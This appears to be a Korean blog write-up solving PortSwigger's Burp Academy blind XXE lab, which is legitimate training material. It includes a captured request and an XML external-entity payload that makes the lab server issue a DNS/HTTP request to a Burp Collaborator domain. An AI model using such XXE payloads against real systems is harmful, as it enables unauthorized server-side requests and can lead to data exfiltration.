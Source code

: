 ```yaml
---
layout: post
title: "Burp Academy 문제풀이 - Blind XXE with out-of-band interaction"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, XXE]
toc: true
---
```


# 개요
- 블라인드 XXE 로 out-of-band 통신을 발생시키는 것을 실습하는 문제이다. 
- 문제 주소: https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction
- 블라인드 XXE 설명 주소: https://portswigger.net/web-security/xxe/blind
- 난이도: PRACTITIONER (중간)

# 랩 개요  
- 이전 문제와 마찬가지로 "Check stock" 기능으로 XXE가 가능하다. 
- XXE로 문제 서버를 외부도메인과 통신하도록  (out-of-band interaction) 하는 것이  가능하다. 
- XXE를 통해 특정 DNS 요청을 발생시키면 될 것 같다. 
- DNS 요청이 발생했다는 것을 알기 위해서 Burp Collaborator 서버를 사용한다. 
- PortSwigger사의 [Burp Collaborator 설명](https://portswigger.net/burp/documentation/collaborator){:target="_blank"}을 보면 디폴트 Burp Collaborator 서버의 도메인은 `*.burpcollaborator.net` 또는  `*.oastify.com` 라는 것을 알 수 있다. 

```
This lab has a "Check stock" feature that parses XML input but does not display the result.

You can detect the blind XXE vulnerability by triggering out-of-band interactions with an external domain.

To solve the lab, use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

Note
To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.
```

# 풀이 

## XXE 가능한 곳 발견
이전 문제들과 마찬가지로 "Check stock" 버튼 클릭시 발생하는 POST 요청의 바디 부분이 XML로 되어 있는 것을 발견했다. 

```http
POST /product/stock HTTP/1.1
Host: 0aa9007d0461bff2c00aaee6002e00b7.web-security-academy.net
Cookie: session=gBA3k6jT5f5DjHzCRpxVSxXg72sbIc5E
Content-Length: 107
Sec-Ch-Ua: "Not?A_Brand";v="8", "Chromium";v="108", "Google Chrome";v="108"
Sec-Ch-Ua-Platform: "Windows"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: https://0aa9007d0461bff2c00aaee6002e00b7.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0aa9007d0461bff2c00aaee6002e00b7.web-security-academy.net/product?productId=5
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ko;q=0.8
Connection: close

<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>5</productId><storeId>1</storeId></stockCheck>
```

## Out-of-band 통신 발생 시도
HTTPS 요청 하는 대상을 burpcollaborator.net의 임의의 서브도메인 xxetest를 지정한 `xxetest.burpcollaborator.net` 로 지정해서 요청해보았다. 

```xml 
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "https://xxetest.burpcollaborator.net"> ]>
<stockCheck>
	<productId>&xxe;</productId>
	<storeId>1</storeId>
</stockCheck>
```

응? `XML parsing error` 가 발생했다. XML 형식이 잘못된 건가?   
생각해보니 블라인드 XXE 문제이므로 XXE결과를 HTTP 응답에 포함시킬 필요는 없을 것 같다. 문제 서버가 외부로 DNS 요청을 하도록 만들기만 하면 되는 것이다. 

```http
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 19

"XML parsing error"
```


여기서 웹 페이지를 보면 성공했다는 메세지가 보인다. 문제서버에서 burpcollaborator.net 도메인을 관리하는 DNS서버로 `xxetest.burpcollaborator.net` 도메인의 IP를 물어보는 DNS 쿼리가 발생한 것이다! 

![Blind XXE 성공](/images/burp-academy-xxe-3-success.png)

